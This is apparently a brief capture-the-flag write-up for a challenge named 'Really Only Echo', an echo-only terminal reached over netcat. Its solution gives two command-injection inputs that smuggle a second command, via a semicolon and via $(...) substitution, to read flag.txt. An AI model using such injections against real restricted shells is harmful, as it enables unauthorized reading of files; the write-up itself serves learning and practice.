 # Really Only Echo

Hey, I have made a terminal that only uses echo, can you find the flag?

`nc chal.competitivecyber.club 3333`

## Solution

`echo HELLO; /bin/cat flag.txt`

`echo $(/usr/bin/cat flag.txt)`

really should have tried this one, looked super easy...
